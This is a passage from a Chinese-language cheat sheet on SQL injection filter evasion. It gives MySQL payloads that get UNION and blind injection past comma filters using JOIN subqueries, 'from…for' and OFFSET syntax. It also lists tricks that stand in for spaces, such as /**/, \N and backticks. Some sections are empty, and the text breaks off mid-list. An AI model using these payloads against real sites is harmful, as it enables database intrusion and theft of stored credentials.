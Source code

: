 ```
```

### 引号过滤


### ,过滤
逗号过滤，会使联查查询注入列数对不上，导致注入失败；例如以下情况：
```
select * from test where id=1 union select 1,2,3
```
过滤后会变成
```
select * from test where id=1 union select 1 2 3
```
解决方法，利用join来使列数匹配
```
select * from test where id=1 union select * from (select 1)a join (select 2)b join (select 3)c 

mysql> select * from test where id=1 union select * from (select 1)a join (select 2)b join (select 3)c;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
| 1    | zzp      | 123      |
| 1    | 2        | 3        |
+------+----------+----------+
2 rows in set (0.06 sec)
```

盲注时，substr等如没逗号，可这样测试
```
select * from test where id=1 and mid('mysql' from 1 for 1) = 'm'
select * from test where id=1 and substr('mysql' from 1 for 1) = 'm';
```
limit时，逗号影响，可这样测试
```
select * from test where id=1 union select * from a limit 1 offset 1
```



### =绕过


## 破除空格的方法
* \N
    ```
    select\N,2,3
    select1,2,\Nfrom 
    ```
* /**/
    ```
    select/**/1,2,3/**/from/**/admin
    ```
* !
    ```
    select!1,2,3
    ```
* ``
    ```
    select 1,2,3``from test
    select 
    ```
* @
    ```
    select@1,2,3